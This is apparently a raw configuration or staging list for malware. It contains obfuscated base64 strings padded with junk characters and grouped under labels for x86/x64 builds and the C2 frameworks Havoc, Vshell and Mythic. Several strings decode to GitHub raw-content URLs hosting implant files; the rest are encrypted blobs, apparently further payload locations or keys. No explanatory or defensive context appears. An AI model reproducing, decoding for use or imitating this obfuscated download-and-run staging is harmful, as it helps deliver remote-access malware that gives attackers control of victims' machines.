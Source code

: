 nfsduaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL04tQw==rtghne

gedrgbhsaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL3Rlc3R4ODY=tyjtryjtr
--------------x86 test----------------
amineaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL29uZQ==jjkker
--x86 --bin
-x86-.167
kxhsgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluLzE2Ny14ODY=tfbvfs

osnxsaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL0NTQklOWDg2invfsx

-------------white+black--------------
ahebutFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKch9n3A==estart
rtfyjnFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcggxj8zQJUU=ergvb

--x86 - bin
hsxazFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcjNa+6jwGAqcbirayx
--x64 bin
afgbuxFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcjNa+6jwGASeertfvds

wearexFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcjhoz47dOAqcnotxht

--------------x64 test----------------
onlientaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL3g2NC13dGVzdA==besttest


---x64 wk-----
pnstcxFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcgg/jczJNFfZJg==juchza

pphsnFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcgd9asgex

gsgasdFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKchVnzZPHJlvGNw==erthe

------------------havoc----------------
mytestaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL0hhdm9jLXg4Ng==entest

borker:
htesthFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcjhoz47dbUqSZA==etesth

testhavocFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcgRszZLcKVw=endhavoc

---x86-c
cniasxFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKchho1pfdbUqSZMG4lonxa

newteFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKckA6zYTNNA==hhtex


----x64------
islandFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKchhoz47ddgY=upxisd

---x64 - c ---------------
bxnmtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKchhoz47dOASef48=kogdf

---vshell-----------
hgsodaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL1ZzaGVsbA==sgrwe

boker
yusnxFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKciZ60YTSLA==bcedu


x64
shexvFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcgZ60YTSLEqcZg==tytrhg


mythic
x86
kliteaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy9NeXRlc3RDb3VudC1lbmcvcmVmcy9oZWFkcy9tYWluL01pdGhpYy14ODY=hxkso

boker
bgnuFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7lliMy9p6USsDPa4IUvSzORluMgx2DuZEdkB/BOo1BpKcj1gzYnXIx/Sato=ytjnr

